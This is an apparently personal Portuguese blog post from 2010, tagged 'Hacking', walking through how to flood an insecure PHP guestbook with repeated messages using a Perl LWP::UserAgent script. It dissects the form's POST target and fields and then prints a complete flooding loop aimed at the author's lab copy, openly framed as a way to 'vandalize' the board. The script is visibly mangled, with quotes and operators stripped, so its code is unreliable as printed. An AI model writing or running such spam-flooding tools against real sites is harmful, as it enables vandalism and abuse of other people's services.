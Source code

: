 ```yaml
---
layout: post
title: Floodando mural com Perl
date: 2010-11-29 15:32
author: obrerodrigues
comments: true
categories: [Hacking]
tags: [programação]
---
```


Porra, cada vez mais que eu uso perl, mas vejo o quanto de coisas que dá pra se fazer usando o mesmo, final de semana passado, começei a ver o que daria pra fazer com sites usando perl.

Usando a <a href="http://search.cpan.org/~gaas/libwww-perl-5.837/lib/LWP/UserAgent.pm" target="_blank">LWP::UserAgent</a>, o céu é o limite :P

Vou exemplificar aqui nesse post como esquematizar o ataque, e como usar o código, resolvi fazer isso depois de ver que matérias sobre Perl em português não são muito comuns ...

Basta saber o básico de HTML, saber também como as requisições funcionam, e um pouco de Perl pra entender o post.

Vou usar esse código aqui para simular um ataque: <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt</a>

É um mural de recados escrito em PHP, e que não precisa de um banco de dados, os recados são salvos num arquivo txt, o código é simples, vulnerável a XSS, mas isso não vem ao caso, ele só vai nos servir de exemplo, pra mostrar como a coisa funciona.

Primeiramente você deve colocar o mural hospedado em algum lugar, você pode instalar um servidor web com o PHP fácil no seu próprio computador, existem pacotes como o <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">XAMPP</a>, ou uma maneira mais fácil é você criar uma conta em algum desses servidores de hospedagem gratuitos com suporte a PHP que existem por ai a fora, sinceramente gosto muito do <a href="http://www.freewebhostingarea.com/" target="_blank">http://www.freewebhostingarea.com/</a>.

Caso queira, você pode usar o meu lab pessoal: <a href="http://ripper.eu5.org/labs/uploads/mural/index.php" target="_blank">http://ripper.eu5.org/labs/uploads/mural/index.php</a>, agora não garanto que esteja on-line pra sempre.

Ok, agora temos o mural funcionando, recados podem ser mandados para o site, basta pôr um nome, e-mail e a mensagem desejada...

Mas e se quisermos vandalizar o mural inseguro? Existem várias maneiras, mas vou te dizer como fazer isso com o perl.

Analizando o código, achei a seguinte linha interessante:
<p id="line1">FORM name=email2 onsubmit="return checkemail()" action=enviar_msg.php?a=confirma method=post
São os paramêtros do form que envia a mensagem para o mural de recados, vou destacar logo o que importa, o paramêtro "action" e o "method", nos diz que usando o método POST o form envia os dados para a página "enviar_msg.php?a=confirma".

Sim, mas e dai?

Com o perl podemos enviar requisições para o servidor, é o que vamos fazer.

Analisando ainda mais o código, observa-se que existem três inputs no form:

INPUT id=nome

INPUT id=email

INPUT id=message

O que nos importa são as ID's, é o que vai se usar no código perl para enviar o post.

Ok, agora sabemos que o form envia para a página enviar_msg.php junto com o paramêtro a=confirma, o nome, email e message.

Agora é que entra o perl, não vou explicar muito porque não tô afim, mas se você provavelmente entendeu até aqui, vai entender o código:

```

#!/usr/bin/perl

use LWP::UserAgent;

print Floodando com perl\n;

print Coloque sua mensagem: ;
my $msg = STDIN; chomp $msg;

print \nColoque o numero de vezes que a msg sera enviada: ;
my $count = STDIN; chomp $count;
my $begin = 1;

while ($begin = $count) {

$U=http://ripper.eu5.org/labs/uploads/mural/enviar_msg.php?a=confirma;
$lwp=LWP::UserAgent-new;
$res=$lwp  -post($U,[
'nome'     ='Brenn0',
'email'   ='whatever@gmail.com',
'mensagem' =$msg . $begin,
]);

$begin++;
print Mensagem numero  . $begin .  enviada...\n;
}

print \nFlood Completo!\n;
print Coded By Brenn0 (:;
exit 0;

# http://brenn0.wordpress.com

```

Básico, 32 linhas de código contando as que ficaram em branco, para um mal programador como eu, até que ficou organizadinho.

Atente para a parte do código onde se inicia o While e até onde ele termina, é ali que mora a parte legal, é onde se monta e se envia a requisição, a graça disso não é sair flodando todo e qualquer mural que se achar por ai, mas o poder que o perl dá em fazer algumas coisas, como automatizar tarefas repetitivas, claro que poderiamos ter feito isso de outras maneiras, como usando a extensão Imacs do firefox, mas nem sempre o mais fácil é mais legal :P

Eeee, fim de post, depois de um longo periodo de tempo sem nada, pensando bem não faz lá muito tempo, o mês é que foi longo, o cefet continua tentando me matar, e eu também continuo tentando o mesmo ...

Enfim, sono, preguiça e estudos, alcool, ociosidade, insanidade, são uma boa combinação (:
